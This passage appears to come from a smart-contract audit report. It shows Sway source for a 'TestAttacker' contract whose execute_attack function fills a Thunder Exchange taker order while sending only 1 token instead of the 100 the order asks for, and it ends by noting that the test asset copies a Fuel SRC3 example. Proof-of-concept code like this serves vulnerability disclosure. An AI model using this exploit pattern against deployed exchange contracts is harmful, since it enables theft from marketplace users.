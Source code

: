 ```rs
    storage::storage_map::*,
};

use interfaces::{
    asset_manager_interface::*,
    pool_interface::*,
    test_attacker_interface::*,
    thunder_exchange_interface::{ThunderExchange},
};

use libraries::{
    msg_sender_address::*,
    constants::*,
    order_types::*,
};

storage {
    /// Thunder Exchange contractId
    exchange: Option<ContractId> = Option::None,

    /// Pool contractId
    pool: Option<ContractId> = Option::None,

    /// Strategy contractId
    strategy: Option<ContractId> = Option::None,
}

impl TestAttacker for Contract {
    #[storage(read, write)]
    fn initialize(exchange: ContractId, pool: ContractId, strategy: ContractId) {
        storage.exchange.write(Option::Some(exchange));
        storage.pool.write(Option::Some(pool));
        storage.strategy.write(Option::Some(strategy));
    }

    #[storage(read)]
    fn execute_attack(order: TakerOrder) {
        let exchange_addr = storage.exchange.read().unwrap().bits();
        let exchange = abi(ThunderExchange, exchange_addr);
        
        exchange.execute_order{ asset_id: AssetId::new(order.collection, order.token_id).bits(), coins: 1 }(order); // attackers sells only 1 token although the users asked for 100
    }
}
```

#### test\_asset folder

In the `test_asset` folder. The test asset is simply the Fuel Team SRC3 [example](https://github.com/FuelLabs/sway-standards/blob/master/examples/src3-mint-burn/multi_asset/src/multi_asset.sw)
